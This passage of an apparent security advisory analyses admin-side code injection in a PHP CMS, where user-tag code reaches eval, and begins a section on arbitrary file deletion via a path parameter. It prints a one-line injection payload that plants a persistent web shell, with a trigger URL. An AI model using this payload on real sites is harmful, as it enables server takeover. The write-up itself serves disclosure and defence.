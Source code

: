 in \admin\editusertag.php

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c07f9c36fbbc.png">

line 93, execute the command directly using the eval function

it was originally intended to place $code in testfunctionXXX(){}, but it was possible to jump out of the testfunctionXXX to execute arbitrary code because of lax filtering.

`$code` comes from `$code = $record['code'];` and `$record['code'] = trim($_POST['code']);`

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c07f9c371475.png">

lines 80-81 limit the characters

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c07f9c4c18c0.png">

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c07f9c37f30d.png">

line 105 stores `$code` and calls SetUserTag function to write to the database

in the function CallUserTag of \lib\classes\class.usertagoperations.inc.php

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c07f9c5e2b84.png">

line 285 calls call_user_func_array to execute the stored function code

go to /admin/listusertags.php?sk=2e70dc0836332261d5c select a tag to edit and add as follows

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c07fae0be955.png">

}if(isset($_GET['action'])) @assert($_GET['action']);/*

then visit /index.php?action=phpinfo() the variable `action` is the command to be executed

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c07faeb4f00d.png">

Vulnerability fix recommendations: filtering the data submitted by the user

## 0x05 Any file deletion in the admin dashboard (<=2.2.7)

in \modules\FilePicker\action.ajax_cmd.php

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c07fade48e44.png">

line 15 gets the value of the `cwd` variable via post and removes the <> character in it

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c07fae03d8a3.png">

line 28 calls the is_relative function from \modules\FilePicker\lib\class.PathAssistant.php

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c07fae52b3b1.png">

line 65 calls the is_relative_to function in this function, the startswith function is called to compare the address from the value of the `cwd` variable and the absolute address of the default.
